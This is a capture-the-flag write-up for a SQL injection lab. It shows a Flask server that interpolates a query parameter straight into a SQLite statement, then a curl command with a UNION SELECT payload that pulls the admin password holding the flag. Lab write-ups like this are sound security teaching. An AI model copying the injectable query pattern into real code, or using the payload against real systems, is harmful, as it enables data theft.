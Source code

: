 # SQLI 3

```cat /challenge/server```
```
hacker@web-security~sqli-3:~$ cat /challenge/server
#!/usr/bin/exec-suid -- /usr/bin/python3 -I

import flask
import os

app = flask.Flask(__name__)


import sqlite3
import tempfile


class TemporaryDB:
    def __init__(self):
        self.db_file = tempfile.NamedTemporaryFile("x", suffix=".db")

    def execute(self, sql, parameters=()):
        connection = sqlite3.connect(self.db_file.name)
        connection.row_factory = sqlite3.Row
        cursor = connection.cursor()
        result = cursor.execute(sql, parameters)
        connection.commit()
        return result


db = TemporaryDB()

db.execute(f"""CREATE TABLE users AS SELECT "admin" AS username, ? as password""", [open("/flag").read()])
# https://www.sqlite.org/lang_insert.html
db.execute(f"""INSERT INTO users SELECT "guest" as username, "password" as password""")


@app.route("/", methods=["GET"])
def challenge():
    query = flask.request.args.get("query", "%")

    try:

        # https://www.sqlite.org/lang_select.html
        sql = f'SELECT username FROM users WHERE username LIKE "{query}"'
        print(f"DEBUG: {query=}")
        results = "\n".join(user["username"] for user in db.execute(sql).fetchall())
    except sqlite3.Error as e:
        results = f"SQL error: {e}"

    return f"""
        <html><body>Welcome to the user query service!
        <form>Query:<input type=text name=query value='{query}'><input type=submit value=Submit></form>
        <hr>
        <b>Query:</b> <pre>{ sql }</pre><br>
        <b>Results:</b><pre>{results}</pre>
        </body></html>
        """


app.secret_key = os.urandom(8)
app.config["SERVER_NAME"] = f"challenge.localhost:80"
app.run("challenge.localhost", 80)
hacker@web-security~sqli-3:~$
```
From here need to find a way to use GET, as POST is not viable. Upon researching, UNION SELECT can accomplish our query payload.

```
curl -v "http://challenge.localhost:80/?query=%22UNION%20SELECT%20password%20FROM%20users%20WHERE%20username=%22admin"
```
